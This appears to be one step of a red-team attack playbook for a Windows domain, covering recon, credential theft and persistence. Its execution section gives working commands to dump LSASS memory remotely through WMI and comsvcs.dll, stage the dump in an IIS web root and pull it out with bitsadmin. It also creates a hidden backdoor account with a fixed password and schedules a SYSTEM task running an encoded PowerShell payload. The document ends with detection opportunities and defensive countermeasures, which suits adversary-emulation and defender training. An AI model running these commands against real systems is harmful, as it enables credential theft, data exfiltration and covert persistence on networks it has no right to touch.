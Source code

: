 # Step 4: Credential Access and Recon (WMI + SSH + comsvcs.dll)

## Objective
- Access sensitive credentials for lateral movement  
- Discover internal hosts and Active Directory structure  
- Establish backup persistence through WMI tasks or stealth accounts

## Context
- Initial access through a web shell (e.g., `/admin/update.aspx`) on DMZ web server  
- Pivot into ENG subnet using valid credentials over WMI or SSH  
- `ENG-NET\engineer` or `itAdmin` credentials are assumed available  
- `comsvcs.dll` is used via `rundll32.exe` to dump LSASS memory using only built-in Windows utilities

## Execution

### 1. Network Recon
```cmd
route print
arp -a
Test-Connection -Count 1 -ComputerName 10.2.15.1..254
```

### 2. AD Recon (Targeted via SSH tunnel or dropper)
```powershell
Get-ADComputer -SearchBase "OU=Engineering,DC=corp,DC=domain,DC=local"
Get-NetGroupMember -Group "Domain Admins"
```

### 3. Identify LSASS PID
```powershell
Invoke-WmiMethod -ComputerName ENGWS01 -Class Win32_Process -Name Create -Credential $cred -ArgumentList 'tasklist > C:\Windows\Temp\tasks.txt'
```
Parse the file to find the PID of `lsass.exe`.

### 4. Dump LSASS with comsvcs.dll (via WMI)
```powershell
Invoke-WmiMethod -ComputerName ENGWS01 -Class Win32_Process -Name Create -Credential $cred -ArgumentList 'rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PID> C:\Windows\Temp\ls.dmp full'
```

### 5. Compress and Exfiltrate Dump
```cmd
makecab.exe C:\Windows\Temp\ls.dmp C:\Windows\Temp\archive.cab
move C:\Windows\Temp\archive.cab C:\inetpub\wwwroot\update.cab
```

From attacker machine (via web shell or tunnel):
```cmd
bitsadmin /transfer job /download http://dmz-web/update.cab C:\Users\Public\ls.cab
```

### 6. Create Backup Local Account (Stealth)
```powershell
$Password = ConvertTo-SecureString "P@ssw0rd123" -AsPlainText -Force
New-LocalUser "svc_diag" -Password $Password -Description "Service Recovery Agent"
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "svc_diag"
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v svc_diag /t REG_DWORD /d 0 /f
```

### 7. Schedule Persistence Task (via WMI)
```cmd
schtasks /Create /S ENGWS01 /RU SYSTEM /SC ONCE /TN "Updater" /TR "powershell -enc <payload>" /ST 01:00
```

## Result
- `svc_diag` user is created and hidden as a backup login  
- LSASS memory is dumped using Microsoft-signed binaries (OPSEC-safe)  
- Engineering subnet layout and key assets identified  
- Credentials harvested and persistence established via scheduled task

## Detection Opportunities

| Vector                     | Description                                                   |
|----------------------------|---------------------------------------------------------------|
| WMI Remote Execution       | CreateProcess calls to `rundll32`, `schtasks`, etc.           |
| LSASS Dump via comsvcs.dll | `rundll32.exe` with `MiniDump` function targeting `lsass.exe` |
| Scheduled Task Creation    | SYSTEM-level task creation on remote host                    |
| Hidden local user          | Registry key added under `UserList`                          |
| File movement              | Dump copied, compressed, and staged via IIS/web path         |

## Defensive Countermeasures

- Enable **LSASS Protected Process Light (PPL)** to block dumping memory via `comsvcs.dll`  
- Monitor **WMI-based execution** across subnet boundaries  
- Detect **rundll32.exe calls** using `MiniDump` from `comsvcs.dll`  
- Watch for **`makecab.exe`** activity on sensitive process dumps  
- Audit **registry writes** under `Winlogon\SpecialAccounts\UserList`  
- Use **network segmentation and firewall rules** to restrict WMI/SMB access  
- Alert on **IIS hosting dump files** or abnormal outbound traffic from DMZ
